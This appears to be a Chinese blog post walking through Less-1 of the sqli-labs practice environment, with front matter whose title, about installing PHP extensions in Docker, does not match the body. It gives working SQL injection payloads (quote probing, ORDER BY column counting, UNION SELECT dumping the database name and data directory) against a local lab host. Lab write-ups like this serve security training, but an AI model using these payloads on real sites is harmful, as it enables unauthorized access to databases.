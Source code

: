 ```yaml
---
layout:     post               # 使用的布局（不需要改）
title:      docker内安装php缺少的扩展mysql.so和mysqli.so 及安装vim  # 标题 
subtitle:      #副标题
date:       2020-06-28         # 时间
author:     yanmie             # 作者
header-img: img/.jpg    ##标签这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               
    - sqli-labs
  
---
```


## ***一、Less-1 **Error Based- String*****

#### 1、判断注入类型
输入`?is=1'`
报错：

	You have an error in your SQL syntax; check the manual
	that corresponds to your MySQL server version for the
	 right syntax to use near ''1'' LIMIT 0,1' at line 1

从`'1'' LIMIT 0,1`可以看出，为字符型注入。那么就可以通过注释我们添加上的 `'` 后的内容执行查询。

注释可通过 --+ 或者 %23 (url中要将#编码)

当然这关也可以采用布尔注入、时间注入。。。

#### 2、猜解字段 	
利用`order by` 猜解。

二分法

当输入大于3的数字时
`http://192.168.2.222/sqli-labs-master/Less-1/?id=1' order by 4--+
`

发生报错`Unknown column '4' in 'order clause'`

输入3或3以下的数字，页面回显正常，说明字段数是3.

#### 3、查看字段回显
	http://192.168.2.222/sqli-labs-master/Less-1/?id=-1' union select 1,2,3  --+

或者：

	http://192.168.2.222/sqli-labs-master/Less-1/?id=1' and 1=2 union select 1,2,3  --+

查看字段回显，发现2和3的位置有回显。

因为有的语句限制只能查看第一行可以选择查询参数为-1（一个表中不可能存在的值）或者制造布尔类型错误，这样查询内容为空才可以看到自己需要的内容。

![union查询](https://s1.ax1x.com/2020/06/28/NRCPBQ.png)

#### 4、爆出数据库
`http://192.168.2.222/sqli-labs-master/Less-1/?id=-1' union select 1,database(),@@datadir  --+
`

页面回显：

    WelcomeDhakkan
    Your Login name:security
    Your Password:/var/lib/mysql/ 

